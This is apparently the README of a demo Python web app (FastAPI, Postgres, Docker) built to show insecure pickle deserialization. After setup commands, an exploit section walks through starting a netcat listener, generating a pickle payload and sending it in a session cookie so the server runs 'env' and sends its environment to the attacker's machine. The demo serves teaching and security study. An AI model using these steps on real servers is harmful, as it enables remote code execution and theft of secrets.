








# Demo Insecure Deserialization
Demo Insecure Deserialization in Python web application using FastAPI + Async SQLAlchemy + Postgres database + Docker.

# prerequirement
This app require create postgress database before start
```
docker compose up -d --build postgres
docker compose exec -it postgres bash
createdb -h localhost -p 5432 -U dev-user ktltat_db
psql -h localhost -p 5432 -U dev-user -d ktltat_db
```

# run
Back to terminal and follow below steps:
```
docker compose up -d --build
docker compose exec ktltat_app alembic revision --autogenerate -m "initdb"
docker compose exec ktltat_app alembic upgrade head
```





# exploit
## Init netcat listener

```
nc -nvlp 1337 
```


## Get your local ip

```
ip a
note: local ip often is formated: 192.168.x.x
```


## Create shell
```
note: Must change variable local_ip in shell_grenerator.py file before
python shell_grenerator.py
```


## Send request attach shell
Attach shell get from above step attach to cookie session


## Exploit success
After send request attach shell, pickle module ran "env" command and sent output to netcat listener



This code in path app/dependency.py is exploited


